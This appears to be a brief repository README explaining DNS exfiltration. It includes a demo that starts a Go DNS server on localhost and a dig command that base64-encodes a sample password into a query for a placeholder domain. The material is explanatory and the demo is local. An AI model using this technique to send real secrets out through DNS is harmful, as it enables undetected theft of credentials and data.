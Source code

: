 DNS exfiltration means breaking data into small chunks, disguise them as DNS queries, and send them to malicious DNS servers. These servers then reconstruct the original data, enabling undetected data leakage.

![image](https://github.com/user-attachments/assets/69a9d370-be18-4ddb-8d5f-84c1a8b765b3)

```
# start the DNS server handling ZG5ZC2VJDXJPDHKK.COM on localhost:53000
go run main.go

# do a DNS query that exfiltrates encoded Pa$$w0rd and observe the server logs
dig $(echo 'Pa$$w0rd' | base64).ZG5ZC2VJDXJPDHKK.COM @localhost -p 53000 +short
```

![image](https://github.com/user-attachments/assets/5b83a9a4-34de-4a86-ade8-cb57e423ef2e)
